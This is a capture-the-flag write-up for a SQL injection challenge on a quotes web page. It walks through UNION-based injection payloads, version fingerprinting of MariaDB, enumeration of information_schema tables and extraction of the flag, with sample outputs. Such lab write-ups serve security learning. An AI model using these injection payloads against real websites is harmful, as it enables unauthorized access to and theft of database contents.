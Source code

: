 After some try and error with `id=2 or 1=1 --`, the sql statement is likely

```sql
select id,quote,author from qoutes where id == $id
```

where no quotes are allowed. Besides, only the first result is selected. Trying `UNION SELECT NULL,NULL,NULL` hints us the number of return values. We can force an invalid first entry with a high id and append with UNION

```sql
100 UNION SELECT 3,4,5 --
```

```html
<div>
  <p class='quote'>
    "4" - 5  </p>
  <p>
    If you'd like to return to this quote, just
    <a href="?id=3">click here</a>.
  </p>
</div>
```

We discover a *Maria DB* driver by using `@@version`. Next we have to extract the general contents of the database. After some research, wen can access `information_schema.tables`.

```sql
select table_schema as database_name,
       table_name
from information_schema.tables
where table_type = 'BASE TABLE'
      and table_schema = database() 
order by database_name, table_name;
```

We have to use indexing via `LIMIT ID,ROWS` to enumerate all tables.

```sql
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 0,1 => ALL_PLUGINS
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 1,1 => APPLICABLE_ROLES
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 2,1 => CHARACTER_SETS
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 3,1 => CHECK_CONSTRAINTS
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 4,1 => ALL_PLUGINS
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 5,1 => APPLICABLE_ROLES
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 6,1 => CHARACTER_SETS
100 UNION SELECT 100,table_name,table_schema FROM information_schema.tables LIMIT 7,1 => CHECK_CONSTRAINTS
```

This is tedious, therefore we use python we enumerate all tables. With a bit of guessing we come up with `100 UNION SELECT 34,flag,34 FROM flag` which gifts us the flag.

> CTF{little_bobby_tables_we_call_him}